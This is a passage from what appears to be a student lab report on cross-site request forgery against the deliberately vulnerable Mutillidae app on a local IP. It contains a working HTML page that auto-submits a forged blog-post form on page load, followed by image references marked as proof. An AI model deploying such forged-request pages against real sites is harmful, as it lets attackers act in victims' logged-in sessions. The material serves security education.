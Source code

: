 Form Data for Attack:

![](./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.006.png)

Code

addNewBlogScript.php

```
  <html>
  
  <body>
  
  <form id="addToBlogFrom" method="post" action="http://192.168.1.41/mutillidae/index.php?page=add-to-your-blog.php"> <input name="csrf-token" value="" />
  
  <textarea name="blog\_entry">hacked from addNewBlog successfully!</textarea> <input name="add-to-your-blog-php-submit-button" value="Save Blog Entry" /> </form>
  
  <script>
  
  document.addEventListener('DOMContentLoaded', function () { document.getElementById('addToBlogFrom').submit();
  
  }, false);
  
  </script>
  
  </body>
  
  </html>
```



Proof![ref2]

![](./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.008.jpeg)


[ref1]: ./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.002.png
[ref2]: ./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.007.png